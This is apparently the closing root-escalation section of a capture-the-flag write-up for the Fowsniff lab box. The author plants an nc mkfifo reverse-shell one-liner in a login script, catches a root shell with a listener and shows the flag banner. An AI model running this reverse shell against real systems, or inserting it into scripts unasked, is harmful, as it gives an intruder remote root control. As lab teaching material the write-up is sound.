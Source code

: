 <br>

## Root

I modify **cube.sh** to include your standard **nc mkfifo** reverse shell so that next time I ssh over we should get a reverse shell back and escalate to root:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <MY IP> 4444 >/tmp/f
```

I start a listener up on my system with:

`nc -nvlp 4444`

I logout of the system, and then ssh back over with the same user, and immediately catch a reverse shell as root:

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.196.26] 34498
bash: cannot set terminal process group (1323): Inappropriate ioctl for device
bash: no job control in this shell
root@fowsniff:/# whoami
whoami
root
root@fowsniff:/#
```

Looking in **/root** shows us a **flag.txt** which has the following inside:

```
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.
```
